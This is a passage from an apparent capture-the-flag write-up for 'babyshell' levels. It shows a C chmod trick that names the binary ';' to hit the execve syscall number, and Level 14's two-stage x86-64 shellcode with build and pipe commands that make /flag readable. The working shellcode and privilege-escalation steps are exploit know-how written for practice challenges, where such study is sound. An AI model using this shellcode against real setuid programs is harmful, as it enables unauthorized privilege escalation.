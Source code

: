 ```
void main()
{
    chmod("/flag", 4);
}
```

compile with:

`gcc chmod_script.c -o /;`

This sets the filename to ; which happens to be `0x3b`. This is also the syscall number for execve

### Level 14 - I could not solve this myself - found assistance online

Ingenious...
```
~/shellcode1.s
.intel_syntax noprefix
.global _start
_start:
	push rdx
	pop rsi
	push rax
	pop rdi
	syscall

~/shellcode2.s

.intel_syntax noprefix
.global _start
_start:
	.rept 10
	nop
	.endr
	push 0x66
	mov rdi, rsp
	mov sil, 4
	mov al, 0x5a
	syscall

commands:
ln -s f /flag

gcc -nostdlib -static shellcode1.s -o shellcode1-elf
objcopy --dump-section .text=shellcode1-raw shellcode1-elf

gcc -nostdlib -static shellcode2.s -o shellcode2-elf
objcopy --dump-section .text=shellcode2-raw shellcode2-elf

(cat shellcode1-raw; cat shellcode2-raw) | /challenge/babyshell14
cat /flag
```
